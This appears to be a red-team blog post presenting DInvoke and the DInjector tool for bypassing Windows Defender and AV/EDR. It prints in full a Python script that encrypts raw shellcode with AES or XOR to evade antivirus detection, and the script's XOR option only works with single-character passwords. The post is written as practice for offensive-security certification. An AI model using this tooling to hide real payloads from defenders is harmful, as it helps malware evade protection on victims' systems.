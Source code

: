 ```yaml
---
layout: single
title: "Trying out DInjector as a AV/EDR bypassing tool, fully ported to DInvoke APIs"
date: 2021-10-26
tags:  
  - windows
  - avbypass
  - dinvoke
  - windows-defender
author_profile: true
---
```


Hello back fellow red teamers. I decided to come make a blog post after a little of long period in which I lost all of my other blog posts.

Lately I have been focused on Windows stuff, such as excercises on trying to bypass Windows Defender through trial and errors etc as a practice to help me make some preparations for a possible OSEP attempt lol.

I came across some amazing repos which I though would be worth to explain on a blog.

First let's take a view :

- [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
 
DInvoke is dynamic replacement for PInvoke and contains powerful primitives that can be combined to dynamically invoke unmanaged code from disk or from memory.

You can have this reference for a deeper explaination on what DInvoke does and what it really is : [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)

While desperatly googling about examples of DInvoke being used on an actual Proof of Concept for silent Code Execution I ended up finding this amazing tool which is fully ported on DInvoke APIs : [https://github.com/snovvcrash/DInjector](https://github.com/snovvcrash/DInjector)

```
(    (
     )\ ) )\ )                   )             (   (  (
    (()/((()/(     (    (     ( /(    (        )\ ))\ )\
     /(_))/(_))(   )\  ))\ (  )\())(  )(      (()/((_|(_)
    (_))_(_))  )\ |(_)/((_))\(_))/ )\(()\      ((_))  _
     |   \_ _|_(_/( !(_)) ((_) |_ ((_)((_)     _| | || |
     | |) | || ' \)) / -_) _||  _/ _ \ '_|  _/ _` | || |
     |___/___|_||_|/ \___\__| \__\___/_|   (_)__,_|_||_|
                 |__/-----------------------------------
                                                K E E P
                                                C A L M
                                                  A N D
                                       D / I N 💉 E C T
                                      S H E L L C O D E
```

The repo consists of a shellcode encrypter which makes use of `xor` or `aes` algorithms and encrypts the file with a password using sha256.

- encrypter.py

```python
#!/usr/bin/env python3

import os
import hashlib
from base64 import b64encode
from argparse import ArgumentParser

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend


class AES:

	def __init__(self, password, iv): 
		self.key = hashlib.sha256(password.encode()).digest()
		self.iv = iv

	def encrypt(self, raw):
		backend = default_backend()
		padder = padding.PKCS7(128).padder()
		raw = padder.update(raw) + padder.finalize()
		cipher = Cipher(algorithms.AES(self.key), modes.CBC(self.iv), backend=backend)
		encryptor = cipher.encryptor()
		return self.iv + encryptor.update(raw) + encryptor.finalize()


def parse_args():
	parser = ArgumentParser()
	parser.add_argument('shellcode_bin', action='store', type=str)
	parser.add_argument('-p', '--password', action='store', type=str, required=True)
	parser.add_argument('-a', '--algorithm', action='store', type=str, default='aes', choices=['aes', 'xor'])
	parser.add_argument('-o', '--output', action='store', type=str)
	parser.add_argument('--base64', action='store_true', default=False)
	return parser.parse_args()


if __name__ == '__main__':
	args = parse_args()

	with open(args.shellcode_bin, 'rb') as fd:
		shellcode = fd.read()

	if args.algorithm == 'aes':
		iv = os.urandom(16)
		ctx = AES(args.password, iv)
		enc = ctx.encrypt(shellcode)
	elif args.algorithm == 'xor':
		enc = bytearray(b ^ ord(args.password) for b in shellcode)

	if args.base64:
		print(b64encode(enc).decode())
	else:
		with open(args.output, 'wb') as fd:
			fd.write(enc)
		print(f'[+] Encrypted shellcode file: {args.output}')
```
